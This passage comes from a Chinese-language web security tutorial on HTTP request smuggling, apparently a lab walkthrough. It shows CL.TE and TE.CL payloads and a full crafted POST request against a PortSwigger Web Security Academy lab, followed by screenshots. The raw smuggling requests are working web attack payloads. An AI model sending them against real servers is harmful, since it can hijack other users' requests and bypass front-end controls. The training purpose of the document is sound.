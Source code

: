 ```php
\r\n
0\r\n
\r\n
A\r\n
\r\n
```

连续发送几次就会发现字母A被拼接到了下一请求中，导致了请求走私，当然也会报错。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-46998dbbeada0d2fc3f504c9c94bee08c5d0b147.png)

### 4.TE CL

TE CL与CL TE正好相反，假如前端服务器处理TE请求头，而后端服务器处理CL请求头，我们同样可以构造恶意数据包完成走私攻击；依旧使用portswigger的lab：<https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl>

我们构造出如下请求：

```php
POST / HTTP/1.1
Host: ac901ff41f9aa7fdc0ce7b16001000db.web-security-academy.net
Cookie: session=MrJkkUD4dyxv9gzzgERPtb56d0cCo79Z
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

12
WPOST / HTTP/1.1

0

```

多次发送后发现：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-e2bfc68549bd25feb3f0dce03aeec4314aaa2aab.png)
